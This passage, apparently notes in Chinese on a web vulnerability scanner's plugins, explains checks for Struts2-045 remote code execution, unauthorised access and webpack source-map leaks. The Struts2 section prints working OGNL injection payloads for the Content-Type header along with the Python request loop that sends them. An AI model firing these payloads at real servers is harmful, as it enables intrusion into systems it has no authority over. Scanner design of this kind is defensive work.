 然后检测响应是否存在  
```python
checks = [str(ran_check), '无法初始化设备 PRN', '??????? PRN', '<Struts2-vuln-Check>',
            'Unable to initialize device PRN']
```
存在则输出结果  

#### struts2_045 Struts2-045远程代码执行

payload写到请求头的 `Content-Type`里  

```python
payloads = [
    r"%{(#nikenb='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#context.setMemberAccess(#dm)))).(#o=@org.apache.struts2.ServletActionContext@getResponse().getWriter()).(#o.println('<'+'Struts2-vuln-'+'Check>')).(#o.close())}",
    r"%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#context.setMemberAccess(#dm)))).(#o=@org.apache.struts2.ServletActionContext@getResponse().getWriter()).(#req=@org.apache.struts2.ServletActionContext@getRequest()).(#path=#req.getRealPath('Struts2-vuln-'+'Check>')).(#o.println(#path)).(#o.close())}",
    r'''%{(#fuck='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#req=@org.apache.struts2.ServletActionContext@getRequest()).(#outstr=@org.apache.struts2.ServletActionContext@getResponse().getWriter()).(#outstr.println(#req.getRealPath("Struts2-vuln-"+"Check>"))).(#outstr.close()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}'''
]
```

```python
发起请求 timeout设置为30s  
for payload in payloads:
    headers['Content-Type'] = payload
    r = requests.get(self.requests.url, headers=headers,timeout=30)
    html1 = r.text
```

然后检验的字符串 `check = '<Struts2-vuln-Check>'`  


#### unauth 未授权访问探测插件

先判断请求头里是否有以下字段 `["cookie", "token", "auth"]`  
有的话才继续进行判断  

然后测试如果删除了 cookie token auth是否换访问  
访问的页面与之前正常访问的相似度是多少来判断是否有未授权访问  


#### webpack webpack源文件泄漏

先过滤需要 js后缀 然后拼接url 后面加 `.map`  
再次访问如果返回状态码是`200`并且页面含有 `webpack:///`  
则说明是 webpack源文件泄漏  
```python
if self.requests.suffix.lower() == '.js':
    new_url = self.requests.url + ".map"
    req = requests.get(new_url, headers=self.requests.headers)
    if req.status_code == 200 and 'webpack:///' in req.text:
        result = ResultObject(self)
        result.init_info(self.requests.url, "webpack源文件泄漏", VulType.SENSITIVE)
        result.add_detail("payload探测", req.reqinfo, generateResponse(req),
                            "webpack:/// 在返回文本中", "", "", PLACE.GET)
        self.success(result)
```
